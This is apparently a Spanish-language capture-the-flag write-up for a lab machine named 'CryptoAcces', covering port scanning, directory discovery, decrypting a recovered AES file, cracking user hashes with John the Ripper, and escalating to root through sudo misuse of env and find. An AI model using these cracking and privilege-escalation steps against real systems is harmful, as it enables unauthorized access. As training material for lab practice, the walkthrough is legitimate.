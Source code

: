```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Medio📅 Fecha de creación: 26/09/2024'
hidden: true
---
```


# CryptoAcces

```bash
┌──(beafn28㉿kali)-[~/Desktop]
└─$ openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
```

wget -r -np -nH --cut-dirs=2 --reject "index.html\*" http://172.17.0.2/hidden/

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de Apache.

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/imagen (61).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

<figure><img src="../.gitbook/assets/imagen (62).png" alt=""><figcaption></figcaption></figure>

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://172.17.0.2/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Utilizamos John the Ripper para intentar crackear las contraseñas.

```bash
john --wordlist=/usr/share/john/password.lst bob_passwords.hash
```

<figure><img src="../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Desciframos estos hashes y se nos proporciona 3 contraseñas y al probar vemos que **letmein** es la correcta. Toca iniciar sesión de los dos usuarios a través del servicio **SSH**.

<figure><img src="../.gitbook/assets/imagen (65).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (68).png" alt=""><figcaption></figcaption></figure>

#### 1. **Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo /usr/bin/env /bin/sh
```

* Este comando ejecuta el binario `/bin/sh` con privilegios de root mediante `sudo` y `env`, dándote una shell de root.
* Una vez ejecutado, tendrás acceso root en la máquina.

#### 2. **Escalada de privilegios con `find` (Alice)**

De forma similar, el comando `find` también puede ser explotado para obtener una shell con privilegios elevados si tiene permisos de sudo.

**Comando de GTFObins (find) para obtener una shell de root:**

```bash
sudo find . -exec /bin/sh \; -quit
```

* Este comando usa `find` para ejecutar `/bin/sh` con privilegios de root utilizando `sudo`.
* El flag `-exec` permite ejecutar el comando `/bin/sh`, y `-quit` detiene el comando `find` una vez que la shell ha sido lanzada.

<figure><img src="../.gitbook/assets/imagen (69).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (70).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.
